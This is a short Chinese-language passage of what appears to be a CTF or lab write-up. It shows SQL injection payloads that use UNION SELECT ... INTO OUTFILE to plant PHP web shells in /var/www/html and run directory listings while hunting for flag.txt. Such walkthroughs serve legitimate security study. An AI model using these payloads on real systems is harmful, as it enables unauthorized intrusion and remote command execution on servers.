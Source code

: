 同上，使用 `dir` 命令查看每一层目录下的所有文件和目录，最后可以在 `/var/www` 目录下找到 `flag.txt`。最后使用 `cat` 命令查看该文件即可。

---

1. 输入 `cn' union select "",'<?php system(dir); ?>', "", "" into outfile '/var/www/html/shell1.php'-- -`
   打开 `<SERVER_IP>:<PORT>/shell1.php?id=0`
   发现当前目录为 `/var/www/html`。

![](img/11-2.png)

![](img/11-3.png)

2. 查看当前目录中所有文件和目录：
   重新输入 `cn' union select "",'<?php system("dir /var/www/html"); ?>', "", "" into outfile '/var/www/html/shell2.php'-- -`
   打开 `/shell2.php?id=0`
   发现当前目录下的文件有 `config.php search.php shell1.php style.css index.php shell0.php shell2.php` ，没有 flag（悲），只好到上级目录中去找。

![](img/11-4.png)

